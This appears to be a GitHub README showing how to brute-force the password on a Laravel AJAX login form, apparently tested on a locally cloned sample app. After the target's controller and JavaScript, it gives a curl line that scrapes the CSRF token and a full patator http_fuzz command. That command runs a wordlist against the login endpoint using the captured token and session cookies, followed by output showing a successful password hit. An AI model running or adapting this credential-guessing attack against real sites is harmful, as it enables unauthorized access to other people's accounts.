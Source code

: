 # Brute-force-Laravel-Ajax-form
Bruteforce laravel forms with has ajax login checks

Route</br>

Route::post('/login/user', 'CustomLoginController@loginUser'); </br>

LoginController</br>
<pre>
public function loginUser(Request $request)
    {
    	
    	$email	       = $request->email;
    	$password      = $request->password;
    	$rememberToken = $request->remember;
      
    	// now we use the Auth to Authenticate the users Credentials
		  // Attempt Login for members
      
      if (Auth::guard('member')->attempt(['email' => $email, 'password' => $password], $rememberToken))
      {
              $msg = array(
                'status'  => 'success',
                'message' => 'Login Successful'
              );
              return response()->json($msg);
      } 
      else
      {
          $msg = array(
            'status'  => 'error',
            'message' => 'Login Fail !'
          );
          return response()->json($msg);
      }
    }
</pre>

We know well all the login comes with CSRF </br>

Cookies = $(curl -s -c ajax.cookie "127.0.0.1:8000/login.php" | awk -F 'value=' '/_token/ {print $2}' | cut -d "'" -f2)</br>

This file will generate a file file with session and CSRF, copy those and use with the python script

<pre>
Javascript send data
        function LoginUser()
        {
            var token    = $("input[name=_token]").val();
            var email    = $("input[name=email]").val();
            var password = $("input[name=password]").val();

            var data = {
                _token:token,
                email:email,
                password:password
            };

            // Ajax Post 
            $.ajax({
                type: "post",
                url: "/login/user",
                data: data,
                cache: false,
                success: function (data)
                {
                    console.log('login request sent !');
                    console.log('status: ' +data.status);
                    console.log('message: ' +data.message);
                },
                error: function (data){
                    alert('Fail to run Login..');
                }
            });

            return false;
        }
   </pre>
   
   <pre>
   our html looks like this
      <form id="login-form" method="post" onsubmit="return LoginUser()" role="form" style="display: block;">
      
   it has hidden input field sets the _token value which checks in Login Controller
   
      <input type="hidden" name="_token" value="HEmuStR1wyJ4GAvE4zVwQ9nq14ZZ0YGw5yWHncIp">
      
      <input type="text" name="email" tabindex="1" class="form-control" placeholder="email" value="">
                                                                          
      <input type="password" name="password" tabindex="2" class="form-control" placeholder="password">
                                         

 Finally our Require fields to bruteforce this login is 
  1 => _token
  2 => email
  3 => Password
  4 => XSRF-TOKEN
  5 => laravel_session 
   
   BruteForce with patator now
   
                      time  patator  http_fuzz  method=POST url="http://127.0.0.1:8000/login/user"  0=/usr/share/wordlists/fasttrack.txt body="email=hello@gmail.com&password=FILE0&_token=HEmuStR1wyJ4GAvE4zVwQ9nq14ZZ0YGw5yWHncIp" header="Cookie: XSRF-TOKEN=eyJpdiI6IkVwUGh4YmY4eFRqT2JEeFhjXC9xV2xnPT0iLCJ2YWx1ZSI6Ikh4cEhreGxHT1JBT3U1T2xQWE1kQ3VlZ3g3WldIWW04djFHSlRhamdCNWZLcWNaRVFiUXNCdnRoTjhKWWl6YStKa09lOWRkekJ3UkNEWk9ybEhheVNBPT0iLCJtYWMiOiI2NmI2ZWY2MDIwZTkyYTU3ZTczYWFiYWMwZTQwYTRmZDMwYTdlMjI0MzA0ZWRiM2RlN2VmMDU5NGE4ZWQ3N2U4In0%3D; laravel_session=eyJpdiI6Ilwvck9UQndqeHpnekVtYnp0THIwRlwvQT09IiwidmFsdWUiOiI4cFJYaXVzcFwvcVBpdW9BMTJ4cnVcL2FrUnhETUxMa2tiZ1Q0OEpYTzlDZzVSUm9KV0xSdVhrNFpLMVwvZWwxMjhKTVdKcHc0MTlBVzBcLzVxUkpKT0FaZHc9PSIsIm1hYyI6IjNlNWI4YWMzYWY1MTRhMjBhYTZjYmZmNjFjYTdjYjRjMzVjY2U2OGMyZDZhY2JjY2VkZTg2MzIxZmEyMjE0MjcifQ%3D%3D" -x ignore:fgrep=Fail accept_cookie=0
                      
Result :
        03:28:13 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-12-23 03:28 IST
03:28:13 patator    INFO -                                                                              
03:28:13 patator    INFO - code size:clen       time | candidate                          |   num | mesg
03:28:13 patator    INFO - -----------------------------------------------------------------------------
03:28:33 patator    INFO - 200  1016:-1        0.838 | hello                              |   223 | HTTP/1.1 200 OK
03:28:33 patator    INFO - Hits/Done/Skip/Fail/Size: 1/223/0/0/223, Avg: 11 r/s, Time: 0h 0m 20s

real	0m21.449s
user	0m1.595s
sys	0m0.631s

Source code for the laravel app https://github.com/topza1412/Laravel-ajax-login-register

I cloned randomly and tested my skill !!!!..
